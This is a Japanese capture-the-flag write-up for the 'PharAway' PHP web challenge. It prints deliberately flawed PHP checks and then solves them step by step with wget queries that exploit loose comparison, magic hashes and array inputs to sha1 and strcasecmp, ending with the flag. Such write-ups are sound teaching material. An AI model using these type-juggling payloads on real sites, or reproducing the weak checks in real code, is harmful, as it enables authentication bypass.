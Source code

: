 # PharAway:Web Exploitation:100pts
Explaining the Analytical Engine's function was a difficult task, bypass the basic php to see what she tried to explain  
Link: [http://34.72.245.53/Web/PHPhar/](http://34.72.245.53/Web/PHPhar/)  
[index.php](index.php)  

# Solution
index.phpが配られる。  
中身は以下のようであった。  
```php:index.php
<?php


include('flag.php');




$a=$_GET['flag0'];
if(strlen($a)>3){                                                 
}
if($a>900000000){
  echo "<h1>".$flag[0]."</h1>";
}
#------------------------------------------------------------------------------------------------------------------
$_p = 1337;
$_l = 13;
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
if($l !== $_l || $_i !== $_p)                                 
{
    die("bye");
}
echo "<h1>".$flag[1]."</h1>";

#-----------------------------------------------------------------------------------------------------------------------
if (isset($_GET['a']) and isset($_GET['b'])) {
    if ($_GET['a'] === $_GET['b'])
        print 'Your password can not be your dog\'s name.';                                  
    else if (sha1($_GET['a']) === sha1($_GET['b']))
      echo  "<h1>".$flag[2]."</h1>";
    else
        print '<p class="alert">Invalid password.</p>';
}
#-----------------------------------------------------------------------------------------------------------------------------
if (!isset($_GET["md4"]))
{
    
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo "<h1>".$flag[3]."</h1>";
}
else
{
    echo "bad";
}

#-----------------------------------------------------------------------------------------------------------------------------

if (isset($_GET['abc'])){
    if (!strcasecmp ($_GET['abc'], $flag[4])){
        echo $flag[4];}}

?>
```
段階的にロックを解除していくようだ。  
一段階目は以下になる。  
```php
$a=$_GET['flag0'];
if(strlen($a)>3){                                                 
}
if($a>900000000){
  echo "<h1>".$flag[0]."</h1>";
}
```
flag0が長さ3より大きく、900000000より大きければよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001"

<h1>shaktictf{</h1>bye
```
二段階目は以下になる。  
```php
$_p = 1337;
$_l = 13;
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
if($l !== $_l || $_i !== $_p)                                 
{
    die("bye");
}
echo "<h1>".$flag[1]."</h1>";
```
secretが長さ13で、その中に数字として1337のみが含まれていればよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1>
```
三段階目は以下になる。  
```php
if (isset($_GET['a']) and isset($_GET['b'])) {
    if ($_GET['a'] === $_GET['b'])
        print 'Your password can not be your dog\'s name.';                                  
    else if (sha1($_GET['a']) === sha1($_GET['b']))
      echo  "<h1>".$flag[2]."</h1>";
    else
        print '<p class="alert">Invalid password.</p>';
}
```
aとbが厳密に一致しておらず、二つの`sha1`が厳密に一致していればよい。  
`sha1`は配列が渡された場合、NULLを返す。  
つまり、aとbを異なる配列にしてやればよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa&a[]=a&b[]=b"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1><h1>Eng1n3</h1>
```
四段階目は以下になる。  
```php
if (!isset($_GET["md4"]))
{
    
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo "<h1>".$flag[3]."</h1>";
}
else
{
    echo "bad";
}
```
厳密でない比較なので0e始まりで残りが数字であるものは0として扱われる。  
入力とハッシュ値が0e始まりであり、それ以外が数字であるものを探す。  
md4では、入力`0e251288019`、ハッシュ値`0e874956163641961271069404332409`が知られている。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa&a[]=a&b[]=b&md4=0e251288019"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1><h1>Eng1n3</h1><h1>!=D1ff3r3nc3</h1>
```
最終段階は以下になる。  
```php
if (isset($_GET['abc'])){
    if (!strcasecmp ($_GET['abc'], $flag[4])){
        echo $flag[4];}}
```
`strcasecmp`は第一引数に配列を渡すとNULLが返ってくる。  
つまり、第三段階と同じことを行う。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa&a[]=a&b[]=b&md4=0e251288019&abc[]=abc"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1><h1>Eng1n3</h1><h1>!=D1ff3r3nc3</h1>_Eng1n3}
```
Web問なのでアクセスするともちろんflagが表示される(ここからコピーすると楽)。  
flag  
[flag.png](site/flag.png)  

## shaktictf{An4ly71c4l_Eng1n3!=D1ff3r3nc3_Eng1n3}